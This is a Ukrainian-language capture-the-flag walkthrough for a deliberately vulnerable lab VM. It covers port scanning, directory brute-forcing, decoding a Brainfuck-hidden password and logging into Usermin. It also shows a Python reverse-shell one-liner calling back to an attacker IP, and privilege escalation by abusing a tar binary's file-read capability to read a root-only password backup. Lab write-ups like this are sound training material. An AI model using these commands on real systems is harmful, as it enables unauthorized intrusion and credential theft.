




### **Крок 1: Отримати IP-адресу цільової машини та просканувати відкриті порти за допомогою nmap**
Після завантаження та запуску віртуальної машини у Qemu / KVM + Virt-Manager першим кроком є визначення її IP-адреси та сканування цільової машини на наявність відкритих портів та запущених сервісів. Для цього використовуємо команди:  

```sh
netdiscover -r 192.168.160.0/24
nmap -sV 192.168.160.145
```
**Результат:**


---

### **Крок 2: Дослідити веб-сервер на порту 80**
Щоб розпочати дослідження цільової машини, спробуємо отримати доступ до її HTTP-сервісу на стандартному порту `80`. Для цього відкриваємо IP-адресу цільової машини у браузері.

**Результат:**


На екрані з’явилася дефолтна сторінка Apache, що свідчить про активний веб-сервер. Однак ми не знаємо, чи є там інші веб-додатки, тому потрібно знайти вірний шлях до них.

Пошук директорій веб-додатка
Для цього використовуємо інструмент перебору веб-директорій.

```sh
dirb http://192.168.160.145
```

**Результат:**


Ми виявили каталог `manual` на веб-сервері. Відкривши його в браузері, побачили дефолтний сайт Apache.
Знаходимо вразливість/приховану підказку
При перегляді HTML-коду сторінки ми знайшли цікавий коментар із зашифрованими даними користувача.


**Виявлений зашифрований пароль:**
```plaintext
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```

**Аналіз коду:**
- Ми дослідили використані символи та визначили, що це Brainfuck — мова програмування, яка може використовуватися для кодування тексту. 
- Використовуючи онлайн-декодер **Brainfuck**, ми розшифрували цей рядок.

**Розшифрований пароль:** `.2uqPEfj3D<P'a-3`

**Висновок:**
Ми отримали відкритий пароль з порту `80`. Тепер переходимо до дослідження портів `10000` та `20000`, щоб знайти нові можливості для експлуатації цільової машини.

---

### **Крок 3: Дослідити HTTP-портах 10000 та 20000**

Ми відкрили IP-адресу цільової машини у браузері, використовуючи спочатку порт `10000`, а потім `20000`.

**Результат:**
На цьому порту працює панель адміністратора **Usermin**.
**Usermin** — це веб-інтерфейс для віддаленого управління сервером Linux.


**Підбір імені користувача**
Маємо пароль, але не знаємо ім'я користувача
Щоб знайти відомі імена користувачів, використовуємо інструмент `enum4linux`, який є у Kali Linux.

**Команда для сканування:**
```sh
enum4linux -a 192.168.160.145
```

**Результат:**


Просить ввести пароль. Використовуємо результат попереднього крока.


Отримали велику кількість інформації, серед якої знайшли користувача `cyber`.

**Перевірка авторизації**
Маючи ім'я користувача `cyber` та пароль, спробували доступ через `SSH`, але він не спрацював.


Тоді вирішуємо зайти через веб-інтерфейс **Usermin**, і це спрацювало!


**Результат:**
Ми потрапили в адмін-панель **Usermin**.

**Використання терміналу **Usermin****
В **Usermin** є опція доступу до веб-терміналу.
Запустили команду `id`, яка підтвердила, що ми увійшли під користувачем `cyber`.

**Перевірили файли у поточному каталозі**

```sh
ls -lah
```

Знайшли перший прапор `user.txt`!


`3mp!r3{You_Manage_To_Break_To_My_Secure_Access}`

---

### **Крок 4: Отримання реверс-шелу**

Маємо доступ до терміналу цільової машини. Тепер спробуємо отримати реверс-шел за допомогою спеціально створеного Python-пейлоада.
Конфігурація `netcat` на машині атакуючого:

```sh
nc -lvp 1234
```

А після цього на цільовій машині
**Пейлоад:**
```plaintext
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.160.198",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

**Результат:**
Машина атакуючого успішно отримала реверс-шел!
Тепер можемо досліджувати систему на наявність вразливостей.


**Перевірка ОС та ядра**
**Команди:**
```sh
cat /etc/issue
uname -a
```
**Результат:**
Отримали інформацію про версію операційної системи та ядра Linux.


Перевірили вразливості у відкритих базах, знайшли готовий експлойт.


Завантажуємо на цільову машину використавши існуюче підключення з минулого кроку


Далі пробуємо застосувати exploit, але отримали результат:
```sh
gcc 50808.c -o exploit
```
```plaintext
gcc 50808.c -o exploit
/bin/sh: 6: gcc: not found
```
Пароля суперкористувача у нас немає, тому продовжуємо пошуки.

---

### **Крок 5: Пошук бінарних файлів із підвищеними правами**

**Команди:**
```sh
find / -perm -4000 -type f 2>/dev/null
```


```sh
getcap -r / 2>/dev/null
```


**Результат:**  
Виявили, що `cap_dac_read_search` дозволяє читати будь-які файли!
Можемо використати це для перегляду захищених файлів у системі.
**Спроба прочитати `/etc/shadow`**
Пробували зламати хешовані паролі за допомогою John the Ripper, але безуспішно.
**Пошук незашифрованого пароля**
**Команда:**
```sh
ls -lah /var/backups/
```


**Результат:**
Знайшли файл резервної копії паролів `.old_pass.bak`.
Він доступний тільки для `root`, але можемо використати `tar` для обходу обмежень.

**Зміна прав доступу та читання файлу паролів**
**Команди:**
```sh
./tar -cf password.tar /var/backups/.old_pass.bak
tar -xf password.tar
cat var/backups/.old_pass.bak
```

**Результат:**
Пароль знайдено у відкритому вигляді!

**Знайдений пароль:**
```plaintext
Ts&4&YurgtRX(=~h
```
**Важливо**
У терміналі з'явилося повідомлення:
```plaintext
./tar: Removing leading '/' from member names (Видалення початкового символу / з назв елементів).
```
Це означає, що `tar` автоматично перетворив абсолютний шлях `/var/backups/.old_pass.bak` на відносний: `var/backups/.old_pass.bak` (вже без косої риски на початку).
Коли ви виконали `tar -xf password.tar`, утиліта розпакувала файл саме за цим відносним шляхом у вашу поточну директорію `/home/cyber`. Тобто всередині папки `/home/cyber` створилася нова папка `var`, в ній папка `backups`, і вже там лежить файл.

---

### **Крок 6: Підвищення привілеїв до root**

**Команда:**
```sh
su root
```
**Результат:**
Вхід під root виконано успішно!



**Читання фінального прапора:**
```sh
cd /root
ls -lah
cat rOOt.txt
```


